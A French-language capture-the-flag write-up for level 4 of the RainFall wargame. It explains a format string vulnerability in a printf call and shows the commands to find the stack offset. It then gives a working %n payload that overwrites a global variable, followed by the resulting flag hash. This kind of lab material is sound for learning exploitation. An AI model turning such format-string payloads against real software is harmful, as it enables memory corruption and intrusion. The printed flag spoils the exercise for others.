 # Level 4

En ouvrant level4 avec cutter on voit que le main appelle une fonction `n` qui lit l'entre standard et envoie le resultat a une fonction `p` qui printf ce dernier. Mais le printf ne precise pas le type ce qui nous permet d'utiliser une string attack comme a l'exercie precedant. Il faut donc commancer par trouver ladresse du parametre de printf comme dans lexercice precedant.
```
level4@RainFall:~$ python -c "print 'aaaa' + '%x ' * 12 " | ./level4 
aaaab7ff26b0 bffff794 b7fd0ff4 0 0 bffff758 804848d bffff550 200 b7fd1ac0 b7ff37d0 61616161 
level4@RainFall:~$ 
```
 La différence est que la condition qui suit l'appel de p compare m avec `0x1025544` = 16930116, donc il faut cree un payload qui va utiliser le `%[n]d` qui va afficher n space les compter grace au `%n` et les stocker dans l'adresse de `m`.
```
level4@RainFall:~$ python -c "print '\x10\x98\x04\x08' + '%16930112d%12\$n'" | ./level4
 
 [...]    
																-1208015184
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```